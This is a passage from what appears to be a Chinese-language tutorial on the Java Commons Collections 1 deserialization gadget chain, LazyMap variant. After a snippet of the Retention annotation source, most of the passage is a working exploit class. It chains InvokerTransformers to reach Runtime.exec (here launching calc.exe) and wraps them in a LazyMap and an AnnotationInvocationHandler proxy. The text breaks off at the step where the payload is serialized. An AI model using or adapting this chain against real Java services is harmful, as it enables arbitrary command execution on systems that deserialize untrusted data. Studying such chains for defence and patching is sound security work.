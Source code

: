 ```java
@Documented
@Retention(RetentionPolicy.RUNTIME)
@Target({ElementType.ANNOTATION_TYPE})
public @interface Retention {
    RetentionPolicy value();
}
```

### LazyMap链

#### Exp展示

```java
package org.example.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections1L {
    public static void main(String[] args) throws Exception {
        //此处构建了一个transformers的数组，在其中构建了任意函数执行的核心代码
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };

        //将transformers数组存入ChaniedTransformer这个继承类
        Transformer transformerChain = new ChainedTransformer(transformers);

        //创建Map并绑定transformerChina
        HashMap<Object, Object> innerMap = new HashMap();
        //innerMap.put("value", "hack");
        //给予map数据转化链
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = c.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        InvocationHandler ith = (InvocationHandler) ctor.newInstance(SuppressWarnings.class, outerMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},ith);
        Object o = ctor.newInstance(SuppressWarnings.class, mapProxy);

        //payload序列化写入文件，模拟网络传输
```